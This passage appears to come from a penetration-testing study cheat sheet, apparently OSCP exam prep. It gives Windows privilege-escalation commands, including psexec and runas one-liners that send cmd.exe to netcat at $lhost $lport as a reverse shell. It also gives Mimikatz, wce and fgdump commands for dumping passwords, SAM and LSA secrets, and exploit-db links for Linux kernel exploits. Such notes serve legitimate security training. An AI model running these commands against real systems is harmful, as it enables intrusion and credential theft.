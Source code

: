         ```powershell
        CMD C:\temp powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt
        ```

    * POTATO: PS: Tater by Kevin Robertson
    * Find SSH,RDP Creds: SessionGopher by FireEye
    * Empire Privilege Escalation
    * Also check [wadcoms](wadcoms.github.io)

* To NTAUTHORITY
    * Escalating to NTAUTHORITY\System:
        ```batch
        psexec.exe -accepteula -s -u $username cmd
        ```
    * Escalating to NTAUTHORITY\System (w/rdp):
        ```batch
        psexec.exe -accepteula -s -u $username -p $password nc $lhost $lport C:\Windows\System32\cmd.exe
        ```
    * Escalating to NTAUTHORITY\System (w.o./rdp):
        ```batch
        psexec.exe -accepteula -i -s C:\dir\dir\nc.exe $lhost $lport -e  C:\windows\system32\cmd.exe
        ```
    * Escalating to NTAUTHORITY\System: 
        ```batch
        runas nc $lhost $lport C:\Windows\System32\cmd.exe
        ```

---

## Privilege Escalation Exploits
* LINUX: Ubuntu 11.04/11.10 or Linux Kernel 2.6.39  3.2.2 which covers 3.0.0 too BTW Memmodipper [^8]
[^8]: [Memmodipper](https://www.exploit-db.com/exploits/18411)
* LINUX: DirtyCow: Ubuntu 12.04 LTS ,Ubuntu 14.04 LTS (Linux Mint 17.1),Debian 8 ,Ubuntu 16.04 LTS ,Ubuntu 16.10 ,RHEL 7, CentOS 7 ,RHEL 6, CentOS 6 ,RHEL 5, CentOS 5
* LINUX: CHKROOTKIT: 0.49 [^9]
[^9]: [chkrootkit](https://www.exploit-db.com/exploits/33899)

---

## Dumping Credentials
* Mimikatz: Either PS Empire, Meterpreter, or direct download of exe file [^10]
[^10]:  [Mimikatz](https://github.com/gentilkiwi/mimikatz/releases/latest)
* Mimikatz:
    * Binary:
        ```
        log
        privilege::debug
        sekurlsa::logonPasswords
        lsadump::sam
        lsadump::secrets
        lsadump::cache
        vault::cred
        vault:list
        ```
* `#!batch wce.exe -w` [^11]
[^11]: [Amplia Security](https://www.ampliasecurity.com/research.html)
* `#!batch fgdump.exe` [^12]
[^12]: [Foofus](http://foofus.net/goons/fizzgig/fgdump/downloads.htm)

---

[^1]: [sleventyeleven](https://raw.githubusercontent.com/sleventyeleven/linuxprivchecker/master/linuxprivchecker.py)
[^2]: [highon.coffee](https://highon.coffee/downloads/linux-local-enum.sh)
[^3]: [rebootuser](https://github.com/rebootuser/LinEnum)
[^4]: [g0tm1lk](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
[^13]: [neomh](https://github.com/neomh/cheat-sheets/blob/master/Commands)
[^14]: [Pentest monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
[^15]: [Vulnerabilityassessment.co](http://www.vulnerabilityassessment.co.uk/Penetration%20Test.html)
[^16]: [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Passwords/Common-Credentials)
[^17]: [Escape from shellcatraz](https://speakerdeck.com/knaps/escape-from-shellcatraz-breaking-out-of-restricted-unix-shells)
[^18]: [ianthomasfry](https://ianthomasfry.blogspot.com/2017/05/oscp-exam-study-guide-i-first-steps.html)
[^19]: [Sec Juice](https://www.secjuice.com/oscp-prep-guidance/)
[^20]: [scund00r](https://scund00r.com/all/oscp/2018/02/25/passing-oscp.html)
[^21]: [backdoorshell](https://backdoorshell.gitbooks.io/oscp-useful-links/content/fuzzing.html)
[^22]: [0xc0ffee](http://0xc0ffee.io/blog/OSCP-Goldmine)
[^23]: [swisskyrepo](https://github.com/swisskyrepo/PayloadsAllTheThings/)
[^24]: [ihack4falafel](https://github.com/ihack4falafel/OSCP/blob/master/Documents/Bookmark%20List.pdf)
[^25]: [kevsec](http://kevsec.fr/resources/)
[^26]: [futureoscp](http://futureoscp.blogspot.com/2017/10/usefull-oscp-material.html)
[^5]: [WindowsPrivCheck](https://github.com/ihack4falafel/OSCP/blob/master/Documents/Upgrading%20half%20shells%20to%20fully%20interactive%20TTYs.pdf)
[^6]: [Accesschk](https://download.sysinternals.com/files/AccessChk.zip)
[^7]: [JAWS](https://github.com/411Hall/JAWS.git)
[^31]: [Exploit-db-130179](https://www.exploit-db.com/papers/13017)
[^32]: [hackingarticles](https://www.hackingarticles.in/5-ways-exploit-lfi-vulnerability/)
[^33]: [Graceful security](https://www.gracefulsecurity.com/path-traversal-cheat-sheet-windows/)
[^34]: [3mrgnc3](https://github.com/3mrgnc3/LFIter2/blob/master/win-fpaths.txt)
[^35]: [Ethical Hackers Club](https://www.youtube.com/watch?v=1fkgo4hsyp8)
[^36]: [HackMag](https://hackmag.com/security/hacking-mysql-databases-methods-and-tools/)